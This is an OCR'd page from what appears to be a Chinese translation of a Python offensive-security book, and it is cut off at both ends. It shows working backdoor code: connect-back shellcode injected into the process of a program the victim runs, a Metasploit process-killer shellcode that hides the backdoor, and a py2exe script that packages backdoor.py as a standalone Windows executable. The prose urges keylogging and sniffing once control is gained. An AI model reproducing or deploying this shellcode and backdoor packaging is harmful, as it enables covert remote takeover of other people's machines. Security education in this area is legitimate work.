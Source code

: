 ```
    "\x63\x6d\x6a\x50\x59\x29\xcc\x89\xe7\x6a\x44\x89\xe2\x31\xc0\xf3" \ 
    "\xaa\x95\x89\xfd\xfe\x42\x2d\xfe\x42\x2c\x8d\x7a\x38\xab\xab\xab" \ 
    "\x68\x72\xfe\xb3\x16\xff\x75\x28\xff\xd6\x5b\x57\x52\x51\x51\x51" \ 
    "\x6a\x01\x51\x51\x55\x51\xff\xd0\x68\xad\xd9\x05\xce\x53\xff\xd6" \
    "\x6a\xff\xff\x37\xff\xd0\x68\xe7\x79\xc6\x79\xff\x75\x04\xff\xd6" \ 
    "\xff\x77\xfc\xff\xd0\x68\xef\xce\xe0\x60\x53\xff\xd6\xff\xd0" 
inject( pid, connect_back_shellcode )
#/* win32_exec - EXITFUNC=thread CMD=cmd.exe /c taskkill /PID AAAA
#Size=159 Encoder=None http://metasploit.com */
our_pid = str( kernel32.GetCurrentProcessId() ) 
process_killer_shellcode = \
    "\xfc\xe8\x44\x00\x00\x00\x8b\x45\x3c\x8b\x7c\x05\x78\x01\xef\x8b" \ 
    "\x4f\x18\x8b\x5f\x20\x01\xeb\x49\x8b\x34\x8b\x01\xee\x31\xc0\x99" \ 
    "\xac\x84\xc0\x74\x07\xc1\xca\x0d\x01\xc2\xeb\xf4\x3b\x54\x24\x04" \ 
    "\x75\xe5\x8b\x5f\x24\x01\xeb\x66\x8b\x0c\x4b\x8b\x5f\x1c\x01\xeb" \ 
    "\x8b\x1c\x8b\x01\xeb\x89\x5c\x24\x04\xc3\x31\xc0\x64\x8b\x40\x30" \ 
    "\x85\xc0\x78\x0c\x8b\x40\x0c\x8b\x70\x1c\xad\x8b\x68\x08\xeb\x09" \ 
    "\x8b\x80\xb0\x00\x00\x00\x8b\x68\x3c\x5f\x31\xf6\x60\x56\x89\xf8" \ 
    "\x83\xc0\x7b\x50\x68\xef\xce\xe0\x60\x68\x98\xfe\x8a\x0e\x57\xff" \ 
    "\xe7\x63\x6d\x64\x2e\x65\x78\x65\x20\x2f\x63\x20\x74\x61\x73\x6b" \ 
    "\x6b\x69\x6c\x6c\x20\x2f\x50\x49\x44\x20\x41\x41\x41\x41\x00" 
padding = 4 - ( len( our_pid ) )
replace_value = our_pid + ( "\x00" * padding ) 
replace_string= "\x41" * 4 
process_killer_shellcode = process_killer_shellcode.replace( replace_string, replace_value )
# Pop the process killing shellcode in 
inject( our_pid, process_killer_shellcode ) 
```

All right!后门程序通计算器(系统的 cacl.exe 有按钮和数字在上面)的 PID，将 shellcode 注入到进程里，然后通过第二个 shellcode 自我了断。这个后门综合了很多不同的技术。每 次重要目标系统中有人运行了计算器（当然你能够改成别的服务级别的文件，随系统启动）， 我们就能够取得机器的控制权。接下来就是键盘记录，嗅探数据包，任何你想干的，都去干 吧!!! 但是在这我们还疏忽了一点，不是每台机器都安装了 Python，他们为什么不用 Linux 呢？如果这样估计我也不用翻译这本数了，哈！别担心，我们有 py2exe，它能把 py 文件转 换成 exe 文件。

### 7.2.3 py2exe

py2exe 是一个非常方便的 Python 库，能够将 Python 脚本编译成完全独立的 Windows 执行程序。记得在下面的操作都是基于 Windows 平台，Linux 平台内置 Python。py2exe 安 装完成后，你就能够在脚本中使用他们了。在这之前先看看调用它们。

```
#setup.py
# Backdoor builder
from distutils.core import setup 
import py2exe 
setup(
    console=['backdoor.py'],
    options = {'py2exe':{'bundle_files':1}}, 
    zipfile = None,
) 
```

很好很简单。仔细看看我们传入 setup 的函数。第一个，console 是我们要编译的 Python 脚本。 options 和 zipfile 参数设置为需要打包的 Python DLL 和所有别的依赖的库。这样我 们的后门就能在任何没有安装 python 的 windlws 系统上使用了。确保 my_debugger_defines.py, backdoor.py, 和 setup.py 文件在相同的目录下。在命令行下输入以下命令，编译脚本。

